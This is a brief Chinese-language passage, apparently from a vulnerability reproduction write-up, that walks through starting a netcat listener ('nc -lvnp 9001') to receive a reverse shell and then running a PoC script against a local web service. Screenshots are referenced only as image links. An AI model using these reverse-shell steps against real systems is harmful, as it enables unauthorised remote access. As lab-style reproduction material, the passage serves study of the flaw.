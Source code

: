 ![](img/漏洞代码.png)

然后先开启一个nc监听，准备接收反弹后的shell

- `-l`监听模式，`-v`详细输出，`-n`指定数字的IP地址 不使用域名，`-p`本地端口号

```
nc -lvnp 9001
```

![](img/开启nc监听.png)

接下来python运行poc脚本

```
python3 poc.py --userip localhost --webport 8000 --lport 9001
```

![](img/运行poc脚本.png)
